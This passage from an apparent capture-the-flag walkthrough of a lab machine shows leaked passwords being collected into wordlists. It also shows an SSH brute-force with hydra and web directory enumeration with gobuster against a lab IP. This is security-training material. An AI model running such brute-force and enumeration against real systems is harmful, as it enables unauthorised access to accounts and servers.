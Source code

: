 ```HTML
      <option value=5 disabled>Backup shadow file</option>
      <option value=6 disabled>Backup web data</option>
      <option value=7 disabled>Backup database</option>
    </select>
    <input type="submit">
  </form>
</body>
</html>
```

This page does not look immediately vulnerable to command injection since `$task` is filtered to a set of values... The directory `w4ld0s_s3cr3t_d1r` has some more credentials/usernames in it. Also, looking for `$password` shows some new possible passwords:

```bash
grep -r '$password' .
```

![hydra1](./admirer/hydra1.png)

combine these new usernames/passwords and try to gain access:

```bash
# add new usernames to the previous file
echo 'waldo'     >> users.txt
echo 'waldo.11'  >> users.txt 
echo 'w.cooper'  >> users.txt
# make a new local password dump
echo 'fgJr6q#S\W:$P'           >> pass.txt
echo 'Ezy]m27}OREc$'           >> pass.txt
echo '%n?4Wz}R$tTF7'           >> pass.txt
echo 'w0rdpr3ss01!'            >> pass.txt
echo ']F7jLHw:*G>UPrTo}~A"d6b' >> pass.txt     
echo 'Wh3r3_1s_w4ld0?'         >> pass.txt
# try to login 
hydra -V -f -L users.txt -P pass.txt ssh://10.10.10.187
```

No luck... Since `utility-scripts/admin_tasks.php` exists on the target server, try enumerating for other files:

- Use a more targetd scan from [seclists](https://github.com/danielmiessler/SecLists)

```bash
sudo apt install seclists --upgrade
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -e -o gobuster.utility_scripts.txt \
   -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt \
   -a 'Mozilla/5.0' \
   -u http://10.10.10.187/utility-scripts/ &
```
